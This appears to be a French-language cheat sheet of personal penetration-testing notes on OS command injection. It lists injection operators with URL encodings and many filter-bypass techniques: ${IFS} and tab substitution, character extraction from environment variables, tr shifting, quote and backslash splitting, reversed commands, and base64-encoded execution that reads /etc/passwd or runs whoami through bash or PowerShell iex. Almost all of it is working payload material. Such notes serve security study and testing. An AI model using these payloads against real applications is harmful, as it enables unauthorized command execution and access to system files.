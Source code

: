 # Détection
| Injection Operator  | Injection Character | URL-Encoded Character  | Executed Command                            |
| --- | --- | --- | --- |
| Semicolon | ;  | %3b | Both |
| New Line  | \n  | %0a | Both |
| Background  | &  | %26 | Both (second output generally shown first) |
| Pipe | \|  | %7c | Both (only second output is shown) |
| AND  | && | %26%26 | Both (only if first succeeds) |
| OR  | \|\|  | %7c%7c | Second (only if first fails) |
| Sub-Shell | ``  | %60%60 | Both (Linux-only) |
| Sub-Shell  | $() | %24%28%29  | Both (Linux-only) |

Parfois ajouter un \n après notre dernière commande permet de voir le résultat?

# Identifier les protections
WAF: pourrait retourner une erreur différente, moins intégré à l'application.
Charactère ou commande rejeté? Simplement tester les charactères seuls

# Outrepasser les protections
### Espaces rejetés:
* utiliser des tabs (%09)
* env var ${IFS} (contient un espace et un tab par défaut)
* brace expension. Ajoute des espaces entre les arguments {ls,-la}
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space

### Utiliser les variables d'environement pour extraire des charactères:
#### Linux:
lister variables:	printenv
* / 	${PATH:0:1}
* ;	${LS_COLORS:10:1}
#### Windows 
##### cmd:
* \\	%HOMEPATH:~6,-11%
##### Powershell:
lister variables:	Get-ChildItem Env:
* \\	$env:HOMEPATH[0]
 
### Shift de charactères:
* ; 	$(tr '!-}' '"-~'<<<:) 	
: est avant ; en ascii. 		tr shift du premier groupe vers le 2eme groupe selon la différence. entre ! et " il y a 1 donc shift de 1.

### Commandes rejetés
##### Linux et Windows:
Utiliser ‘ ‘ ou “ ” pour briser la commande, mais ne pas mélanger. ’w'hoami
##### Linux:
```shell
\ et $@	w\ho\am\i 	who$@ami
# Utiliser des maj et min puis reconvertir en min
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
#Inverser une commande
$(rev<<<'imaohw')
```
##### Windows:
```
^	exister d'autres aussi
WhOaMI	Utiliser casse différente
iex "$('imaohw'[-1..-20] -join '')"	inverser une commande
```

### Encodage
##### Linux:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell 
echo -n 'cat /etc/passwd | grep 33' | base64
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

alternatives: sh pour exécution, openssl pour décoder b64 ou xxd pour décodage hex 
##### Windows:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
echo -n whoami | iconv -f utf-8 -t utf-16le | base64
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion

# Automatisation
Bashfuscator
DOSfuscation
